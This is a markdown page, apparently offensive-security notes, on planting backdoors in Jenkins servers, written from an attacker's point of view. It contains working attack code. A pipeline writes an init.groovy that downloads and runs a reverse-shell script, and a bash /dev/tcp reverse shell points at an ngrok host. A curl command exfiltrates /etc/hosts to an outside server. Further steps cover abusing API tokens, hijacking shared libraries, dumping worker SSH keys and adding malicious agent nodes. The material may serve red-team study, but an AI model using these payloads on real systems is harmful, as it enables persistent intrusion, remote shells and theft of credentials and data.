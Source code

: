 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## Using User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Using Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - We can run this via pipeline
``` Groovy
pipeline{
    agent any
    stages{
        stage('Adding a groovy init file'){
            steps{
                sh '''
                    echo "'wget -O /tmp/revshell.sh  https://gist.githubusercontent.com/dibsy/00d346575659f977b353f95a7064e966/raw/dc89f902db2c81fe96c2f5a102e16c25b8308983/temp-cmd.txt'.execute()" > /var/lib/jenkins/init.groovy
                    echo "sleep(5000)" >> /var/lib/jenkins/init.groovy
                    echo "'sh /tmp/revshell.sh'.execute()" >> /var/lib/jenkins/init.groovy
                    '''
            }
        }
    }
}
```
  
  
  
  
init.groovy
```
"wget -o /tmp/revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
sleep(5000)
"sh /tmp/revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```

<img src="backdoor-rev.png">

  - Exfiltrate data - You can exfiltrate system files and automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy

```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```

<img src="backdoor-exfil.png">

  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Triggering backdoor jobs

- Add a build-step

<img src="backdoor-build-step.png">

- Add a post-build Actions to start our backdoor

<img src="backdoor-build-step-post.png">

- Build a job that runs periodically ( cronjob style )

<img src="backdoor-cron.png">

## Using Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Adding Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">

